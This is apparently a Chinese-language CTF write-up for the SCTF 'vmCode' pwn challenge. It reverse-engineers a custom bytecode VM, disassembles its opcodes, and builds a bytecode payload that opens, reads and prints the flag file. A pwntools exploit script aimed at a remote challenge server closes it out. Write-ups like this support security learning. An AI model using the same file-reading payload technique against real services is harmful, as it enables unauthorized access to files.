

# vmCode

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## seccomp rules


## 解题思路

要求输入一段字节码，随后程序运行这段字节码。根据`main`及其之后的汇编，可以看出`RSI`是PC，
`RDI`是SP，运行前会先从PC读取一字节，然后根据`offset`表取偏移量为`*PC - 0x21`跳转到相应的“函数”，
我根据此偏移量给跳转过去的“函数”命名为`func0`、`func1`... ...由此可以将原始的`code`反汇编为

```asm
; push "shellcode: ", push 0xb, push &"shellcode: "
push "lcod"         ; func5
shl [sp], 8         ; func10
shl [sp], 8         ; func10
shl [sp], 8         ; func10
shl [sp], 8         ; func10
push "shel"         ; func5
pop rax
xor [sp], rax       ; func2
push sp             ; func16
push "e: \0"        ; func10
xchg [sp], [sp - 1] ; func4
push 0xb            ; func5
xchg [sp], [sp - 1] ; func4

; push 0x1, push 0x1
push 1              ; func5
push 1              ; func5

; write(1, "shellcode: ", 0xb)
pop rax
pop rdi
pop rsi
pop rdx
syscall
push rax            ; func15
; clear stack
pop                 ; func7
pop                 ; func7
pop                 ; func7
; read(0, pc, 0x50)
push 0x50           ; func5
push pc             ; func17
push 0xf1           ; func5
xor [sp - 1], [sp]
pop                 ; func2
push 0              ; func5
push 0              ; func5
pop rax
pop rdi
pop rsi
pop rdx
syscall
push rax            ; func15
exit                ; func18
```

然后读入的字节码将被插入到exit之前。反汇编所有函数，得到以下manual

```asm
// Q for qword ptr, B for byte ptr
call i16            ; func0
ret                 ; func1
pop rax             ; ...
xor [sp], rax       ; func2
xchg [sp], [sp - 2] ; func3
xchg [sp], [sp - 1] ; func4
push i32            ; func5
movzx Q[sp], B[sp]  ; func6
pop                 ; func7
shr [sp], 8         ; func8
push [sp]           ; func9
shl [sp], 8         ; func10
if ([sp], pop)      ; ...
    jmp i16         ; ...
else                ; ...
    nop i16         ; func11
pop rax             ; ...
ror rax, B[sp]      ; ...
mov [sp], rax       ; func12
pop rax             ; ...
rol rax, B[sp]      ; ...
mov [sp], rax       ; func13
pop rax             ; ...
xor [sp], rax       ; func14
pop rax             ; ...
pop rdi             ; ...
pop rsi             ; ...
pop rdx             ; ...
syscall             ; ...
push rax            ; func15
push sp             ; func16
push pc             ; func17
exit                ; func18
```

据此我们就可以写出exp了

```asm
; fd = open("flag", 0, 0)
push "flag"         ; func5
push sp             ; func16
push 0              ; func5
push 0              ; func5
xchg [sp], [sp - 2] ; func3
push 2              ; func5
pop rax
pop rdi
pop rsi
pop rdx
syscall
push rax            ; func15
; readin = read(fd, sp + 0x100, 0x50)
push sp             ; func16
push 0x100          ; func5
pop rax
xor [sp], rax       ; func2
push 0x50           ; func5
xchg [sp], [sp - 2] ; func3
push 0              ; func5
pop rax
pop rdi
pop rsi
pop rdx
syscall
push rax            ; func15
; write(1, sp + 0x100, readin)
push sp             ; func16
push 0x100          ; func5
pop rax
xor [sp], rax       ; func2
push 1              ; func5
push 1              ; func5
pop rax
pop rdi
pop rsi
pop rdx
syscall
push rax            ; func15
; exit
exit                ; func18
```

这里的栈布局经过计算，刚好满足push的值不变，这样在读写的时候就不会发生错位，
导致flag不全。以上exp还通过保留上一个syscall的返回值作为下一个syscall的参数，
可以实现刚刚好输出flag长度的字符，避免了多余的'\0'

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
EXE = './vmcode'
LITERAL = lambda imm, word: pack(imm, word) if isinstance(imm, int) else imm

def assemble(code: bytearray, func: int, imm: int | bytes=None):
    if func in (0, 5, 11) and imm is None:
        raise ValueError(f"Immediate value needed for func{func}")
    code.append(func + 0x21)
    if func == 0 or func == 11:
        code.extend(LITERAL(imm, 16))
    elif func == 5:
        code.extend(LITERAL(imm, 32))

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('1.95.68.23', 58924)
    vmcode = bytearray()
    # fd = open("flag", 0, 0)
    assemble(vmcode, 5, b'flag')
    assemble(vmcode, 16)
    assemble(vmcode, 5, 0)
    assemble(vmcode, 5, 0)
    assemble(vmcode, 3)
    assemble(vmcode, 5, 2)
    assemble(vmcode, 15)
    # readin = read(fd, sp + 0x100, 0x50)
    assemble(vmcode, 16)
    assemble(vmcode, 5, 0x100)
    assemble(vmcode, 2)
    assemble(vmcode, 5, 0x50)
    assemble(vmcode, 3)
    assemble(vmcode, 5, 0)
    assemble(vmcode, 15)
    # write(1, sp + 0x100, readin)
    assemble(vmcode, 16)
    assemble(vmcode, 5, 0x100)
    assemble(vmcode, 2)
    assemble(vmcode, 5, 1)
    assemble(vmcode, 5, 1)
    assemble(vmcode, 15)
    # exit
    assemble(vmcode, 18)
    vmcode = bytes(vmcode)
    info(f"Generated {len(vmcode)}-bytes vmcode {vmcode}")
    sh.send(bytes(vmcode))

    sh.recvuntil(b"SCTF{")
    flag = b"SCTF{" + sh.recvuntil(b"}")
    success(f"FLAG is: {flag.decode()}")
    sh.close()
```



